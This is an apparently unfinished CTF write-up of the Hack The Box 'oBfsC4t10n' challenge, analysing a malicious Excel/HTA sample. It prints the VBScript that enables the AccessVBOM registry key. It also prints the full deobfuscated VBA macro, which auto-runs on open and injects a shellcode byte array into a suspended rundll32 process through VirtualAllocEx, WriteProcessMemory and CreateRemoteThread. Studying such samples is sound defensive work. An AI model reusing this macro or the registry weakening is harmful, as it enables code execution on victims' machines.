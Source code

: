 ```yaml
---
title: HTB write up for the oBfsC4t10n[HARD] challenge
description: write up for the oBfsC4t10n[HARD] challenge
published: true
datePublished: 1611316432536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackthebox
  - oBfsC4t10n
  - htb
  - security
thumbnailPhoto: /default.png
bannerPhoto: /default.png
canonicalUrl:
---
```


# oBfsC4t10n _[HARD]_ `(WIP)`

This is my Write Up for the "oBfsC4t10n" challenge from Hack The Box.

We are given a _zip file_. after extraction we are presented with an **html** file telling us to download an **excel file**.
The excel file has been included in the html as a **base64 encoded** string, lets just save that info for later `base64.txt` in case we need it.

> decoding `base64.txt` actually gives us a valid excel like file.

After we checked the HTML and deemed the download save lets fetch the excel file.

## Enumeration

Instead of trying to open or analyze the file on our own machine, lets go ahead and upload it to **ANY.RUN**.

> [https://ANY.RUN](https://ANY.RUN) is a **online Sandbox** service that allows you to open various suspicious files or programms to fully analyze what would happen, without the danger.

After Testing the file with **ANY.RUN** we were able to see how the exploit would work and what would be done. So we tested on a **Windows 7** Machine, after opening the file, the exploit imediately startet to run:

> 1. At first a temp file was created under `C:\Users\admin\AppData\Local\Temp\CVR40EB.tmp.cvr`
> 2. Then a what seems to be `visual basic script` executer was added here: `C:\Users\admin\AppData\Local\Temp\VBE\MSForms.exd`
> 3. followed by a `.hta` file with a funny name..: `C:\Users\admin\AppData\Local\Temp\LwTHLrGh.hta` <-- lemme guess thats the one.
> 4. it then makes use of `mshta.exe` to try and execute the `LwTHLrGh.hta` file.
> 5. then ANY.RUN stops executing the file.

I went ahead and _downloaded_ the `MSForms.exd` as well as the `LwTHLrGh.hta` file so we can analyze them further.

## Analyzing `LwTHLrGh.hta`

> .hta is a propriatary file format used by microsoft, its called '**HT**ML **A**pplication' and supports HTML code as well as **Visual Basic** or **JScript**. This format was meant to be used by Internet Explorer.
>
> The **default file-association** for the .hta extension is the Microsoft HTML Application Host (**mshta.exe**). If you have not disabled or changed this file association, in effect the HTA file behaves like an executable when double-clicked. An **HTA runs** as a **fully trusted application** and as a result has a lot **more privileges than a normal HTML** file.

Sounds dangerous, nice!

So lets disect this bitch!

When opening the file we see it has a rather clear structure, a huge VB Script and **even comments**. How nice of the hacker not to obfuscate his code too much, thanks [@0xdf](https://twitter.com/0xdf_). ;-)

```jsx
"<html><head>

<script language="vbscript">

<!-- VB script here -->

</script></head></html>"
```

so naturally, since its practiacally all the code, we strip the vbcode out of the .hta to make it readable.

Thank god we know VB, otherwise this would be a pain from here on now. ;-) Thankfully, since the autor has left some comments, indicating how the attack works, we should be able to cope with it.

The very first thing he does is effectively creating a backup of the AccessVBOM key **if** it has been set before.

```vb
' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = """"
end if
```

> "_Setting AccessVBOM to 1 allows to access the VBA Object Model_"

Then he 'weakens the target' by setting the AccessVBOM to 1, thus enabling all acces to VBA Object Model.

```VB
' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"
```

Then he gets to the juicy part.
To Exploit the Security setting he just turned off, he creates a new Excel Workboo, with macros of course.
He then proceeds to add VBComponents to the Excel, allowing him to add an Assembly Code Module.

```VB
' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ... 80 more lines...

```

In his last step this good boy restores the systems registry to its previous state.

```vb
' Restore the registry to its old state
if action = "" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
```

> xlmodule.CodeModule.AddFromString contains many obfuscated lines of assembly code, I deobfuscated it by printing it via VBS.

Here is the actualy assembly code payload:

```cpp
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

You can see the Variable myArray seems suspicous, when running the payload in Excel I get an error for 'myArray'

Im stuck here at the moment... I was told i would not need windows..

@ me on twitter [@0x0000005](https://twitter.com/0x0000005)

> This Post is marked as `WIP` and will be updated continously.
